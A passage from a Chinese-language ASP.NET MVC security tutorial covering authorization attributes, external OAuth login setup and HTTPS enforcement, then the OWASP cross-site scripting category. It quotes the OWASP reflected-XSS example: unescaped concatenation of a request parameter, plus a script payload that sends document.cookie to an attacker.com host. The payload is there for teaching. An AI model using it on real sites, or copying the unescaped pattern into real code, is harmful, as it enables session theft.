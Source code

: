 除了这些措施之外，查看`AccountController`类可以看到几个带有安全属性标记的方法。该类本身带有`AuthorizeAttribute`标记，但我们还发现一些方法带有`[AllowAnonymous]`标记。原因是某些动作和控制器在授权过程中被`AuthorizeAttribute`跳过，目的是允许对这些方法进行初始访问。

至于第二种认证方式，即通过 Google、Twitter 或 Facebook 提供的外部登录，现在可以通过`OAuth`和`OpenID`实现，这两个标准是社交网络中广泛使用的认证标准。

与这些标准相关的协议在过去不容易实现，因为它们很复杂；此外，一些顶级提供者习惯于以某些差异来实现它们。幸运的是，MVC 项目模板简化了我们可以管理这些选项的方式。

以下（注释的）代码在项目中看起来就像这样，以便您可以使用这些外部提供者（您可以在`Startup.Auth.cs`文件中找到它们）来编写这些新选项：

```cs
// Uncomment the following lines to enable logging in with third party
//login providers
//app.UseMicrosoftAccountAuthentication(
//  clientId: "",
//  clientSecret: "");

//app.UseTwitterAuthentication(
//  consumerKey: "",
//  consumerSecret: "");

//app.UseFacebookAuthentication(
//  appId: "",
//  appSecret: "");

//app.UseGoogleAuthentication(new GoogleOAuth2AuthenticationOptions()
//{
//   ClientId = "",
//  ClientSecret = ""
//});
```

如您所见，每个提供者都需要某种用户和密码组合，您可以将它们保存在为此目的选定的存储介质中。

最后，请注意还有其他与安全相关的属性你可能可以使用：例如，你可以通过添加 `[RequireHttps]` 属性来强制从外部提供者回调以使用 HTTPS 而不是 HTTP，该属性与你要保护的临界操作方法相关联。

以这种方式，你只需一个属性就能增加一层额外的安全防护。

# A3 – 跨站脚本（XSS）

由于开发者社区对其缺乏了解以及缺乏预防措施，XSS 被认为是最具问题的安全问题之一。

虽然在某些实现中这很简单，但这也是为什么它如此危险。已知有三种 XSS 攻击形式：存储型、反射型和基于 DOM 的。

这些攻击的官方示例之一（反射型）展示了以下代码：

```cs
"<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

即，页面根据请求构建一个输入字段。此外，攻击者还可以以这种方式修改页面：

```cs
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```
